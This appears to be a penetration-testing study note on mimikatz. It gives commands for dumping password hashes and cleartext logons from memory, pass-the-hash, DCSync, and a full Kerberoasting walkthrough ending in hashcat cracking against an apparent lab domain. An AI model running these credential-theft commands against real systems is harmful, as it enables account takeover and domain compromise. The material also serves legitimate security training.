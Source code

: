 ```yaml
---
title: mimikatz
author: amandaguglieri
draft: false
TableOfContents: true
tags:
  - windows
  - dump hashes
  - passwords
  - pass the hash attack
---
```


# mimikatz

**`mimikatz`** is a tool made in `C` .

It's now well known to extract plaintexts passwords, hash, PIN code and kerberos tickets from memory. **`mimikatz`** can also perform pass-the-hash, pass-the-ticket or build _Golden tickets_.

Kiwi module in [a meterpreter in metasploit](metasploit.md) is an adaptation of mimikatz.

## No installation, portable

Download from: https://github.com/ParrotSec/mimikatz.git

## Basic usage


```bash
# Impersonate as NT Authority/SYSTEM (having permissions for it).
token::elevate

# List users and hashes of the machine
lsadump::sam

# Enable debug mode for our user
privilege::debug

# List users logged in the machine and still in memory
sekurlsa::logonPasswords full

# Pass The Hash attack in windows:
# 1. Run mimikatz
mimikatz.exe privilege::debug "sekurlsa::pth /user:<username> /rc4:<NTLM hash> /domain:<DOMAIN> /run:<Command>" exit
# sekurlsa::pth is a module that allows us to perform a Pass the Hash attack by starting a process using the hash of the user's password
# /run:<Command>: For example /run:cmd.exe
# 2. After that, we canuse cmd.exe to execute commands in the user's context. 

# Run a dcsync attack:
.\mimikatz.exe privilege::debug "lsadump::dcsync /domain:$domain /user:Administrator" exit
```


## An Example

**1.** Enumerating SPNs with setspn.exe

```cmd-session
setspn.exe -Q */*
```

We will focus on `user accounts` and ignore the computer accounts returned by the tool.

**2.** Using PowerShell, we can request TGS tickets for the interested account and load them into memory.

```powershell
Add-Type -AssemblyName System.IdentityModel
# Add-Type cmdlet is used to add a .NET framework class to our PowerShell session, which can then be instantiated like any .NET framework object.
# -AssemblyName parameter allows us to specify an assembly that contains types that we are interested in using
# System.IdentityModel is a namespace that contains different classes for building security token services

New-Object System.IdentityModel.Tokens.KerberosRequestorSecurityToken -ArgumentList "MSSQLSvc/SQL01.inlanefreight.local:1433"
#  New-Object cmdlet to create an instance of a .NET Framework object.
# System.IdentityModel.Tokens namespace with the KerberosRequestorSecurityToken class to create a security token 
# -ArgumentList "MSSQLSvc/DEV-PRE-SQL.inlanefreight.local:1433": pass the SPN name to the class to request a Kerberos TGS ticket
```


**3.** If needed, we could also retrieve all tickets:

```powershell
setspn.exe -T INLANEFREIGHT.LOCAL -Q */* | Select-String '^CN' -Context 0,1 | % { New-Object System.IdentityModel.Tokens.KerberosRequestorSecurityToken -ArgumentList $_.Context.PostContext[0].Trim() }
```


**4.** Extract Tickets from Memory with Mimikatz

```cmd-session
# Launch mimikatz
mimikatz.exe

# Specify base64
base64 /out:true
# If we do not specify the base64 /out:true command, Mimikatz will extract the tickets and write them to .kirbi files.

# Export the tickets
kerberos::list /export 
```

**5.** Next, we can take the base64 blob and remove new lines and white spaces since the output is column wrapped, and we need it all on one line for the next step.

```shell-session
echo "<base64 blob>" |  tr -d \\n 
```


**6.** We can place the above single line of output into a file and convert it back to a `.kirbi` file using the `base64` utility.

```shell-session
cat encoded_file | base64 -d > sqldev.kirbi
```

**7.** Use [kirbi2john.py](kirbi2john.md):


```shell-session
python2.7 kirbi2john.py Filename.kirbi
```

This will create a file called `crack_file`. We then must modify the file a bit to be able to use Hashcat against the hash.

```shell-session
sed 's/\$krb5tgs\$\(.*\):\(.*\)/\$krb5tgs\$23\$\*\1\*\$\2/' crack_file > ServiceName_tgs_hashcat
```

**8.** Cracking the Hash with Hashcat

```shell-session
hashcat -m 13100 ServiceName_tgs_hashcat /usr/share/wordlists/rockyou.txt 
```

If we decide to skip the base64 output with Mimikatz and type `mimikatz # kerberos::list /export`, the .kirbi file (or files) will be written to disk. In this case, we can download the file(s) and run `kirbi2john.py` against them directly, skipping the base64 decoding step.
